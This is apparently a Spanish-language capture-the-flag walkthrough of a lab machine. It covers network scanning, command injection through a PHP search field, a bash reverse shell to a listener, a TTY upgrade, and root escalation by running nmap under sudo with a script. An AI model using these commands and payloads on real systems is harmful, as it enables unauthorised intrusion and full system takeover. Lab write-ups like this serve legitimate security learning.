 # ToDo #



~~Machine:
	HackingStation:
	netdiscover -r 10.0.2.0/24
	nmap first
	nmap services
	Solo puerto 80, miramos la pág:
		CVE apache 2.4.57 -> CVE-2023-31122
		Dejamos ejecutando un dirb sobre el servicio, mientras examinamos a mano la web
		Primer intento de xss con <script>alert("Hacked")</script>, no nos devuelve nada pero obtenemos un archivo en php que ejecuta un comando
		Vemos el archivo php y parece ser una base de datos de exploit-db, si buscamos por ejemplo la versión de apache, nos aparecen diferentes entradas
		Dentro de las entradas, aparece un "Apache + php - remote code execution + scanner"
			https://www.exploit-db.com/exploits/29316
		Al saber que es php y no ver un tratamiento en principio de la entrada, vamos a probar a ejecutar un ls
			apache 2.4.57;exec("ls")
			Sin exito
		Vamos al dirbuster y vemos que hay una página a la que podemos acceder:
			10.0.2.6/javascript/jquery/jquery
		Seguimos probando por la parte del input, esta vez simplemente con bash
			apache 2.4.57;whoami
			Nos responde e server devolviendonos el usuario con el que se ejecuta esto "hacker". Hecho esto vamos a mandarnos una reverse shell
				nc -nlvp 443
				Ejecutamos en el botón o con un curl la reverse shell en bash:
					bash -c 'bash -i >& /dev/tcp/10.0.2.4/443 0>&1'
			Estamkos dentro, vamos a hacer una conversion de tty
				script /dev/null -c bash
				ctrl+z
				stty raw -echo;fg
				reset xterm
				export TERM=xterm
				export SHELL=bash
		Escalamos privilegios:
			id (Poca información)
			sudo -l
				Vemos que tenemos un binario "nmap" en /usr/bin/nmap el que podemos ejecutar usar con sudo
				sudo /usr/bin/nmap 127.0.0.1
				Vemos que tiene ssh activado, pero en nuestro scan no nos aparecía. Esto es debido a que estará de forma interna. El uso
				es el usual de nmap. 
				Sabemos que con nmap, podemos ejecutar scripts, vamos a intentar crear de alguna manera un script que nos devuelva una shell como root.
				Para eso buscamos y encontramos GTFO bins, dentro de ella podemos encontrar una entrada a nmap. Vemos que con una version de nmap inferior
				a la que tiene el sistema, podríamos haber iniciado una shell interactiva con: nmap --interactive. Pero nuestra version supera a las vulnerables
				En vez de usar una sh como nos indica en el GTFObins, vamos a intentar que nos devuelva una bash:
					BASH=$(mktemp)
					echo 'os.execute("/bin/bash")' > $BASH
					sudo nmap --script=$BASH
				Tenemos acceso como root. Aunque no aparezca cuando escribimos, el comando se ejecuta. Para hacerlo más comodo podemos enviarnos
				una reverse shell como root, o activar ssh y establecer por ahí una conexión (vemos como de verdad tiene ssh abierto pero solo en modo
				escucha). De todas formas en el home de root, tenemos su flag~~
